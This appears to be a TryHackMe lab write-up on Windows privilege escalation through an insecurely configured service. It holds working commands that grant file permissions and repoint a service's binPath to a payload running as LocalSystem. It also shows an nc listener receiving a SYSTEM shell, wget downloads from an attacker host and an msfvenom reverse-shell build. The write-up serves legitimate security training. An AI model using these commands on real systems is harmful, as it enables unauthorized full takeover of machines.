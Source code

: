 
**Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:**
```powershell
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

**To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):**
```powershell
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
- Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available.

**To trigger our payload, all that rests is restarting the service:**
```powershell
C:\> sc stop THMService 
C:\> sc start THMService
```

**And we will receive a shell back in our attacker's machine with SYSTEM privileges:**
```sh
user@attackerpc$ nc -lvp 4447 
Listening on 0.0.0.0 4447 
Connection received on 10.10.175.90 50650 
Microsoft Windows [Version 10.0.17763.1821] 
(c) 2018 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>whoami 
NT AUTHORITY\SYSTEM
```

wget http://10.17.47.177:8000/rev-svc3.exe -O rev-svc3.exe

wget http://10.17.47.177:8000/rev-svc2.exe -O rev-svc2.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.47.177 LPORT=4444 -f exe-service -o rev-svc2.exe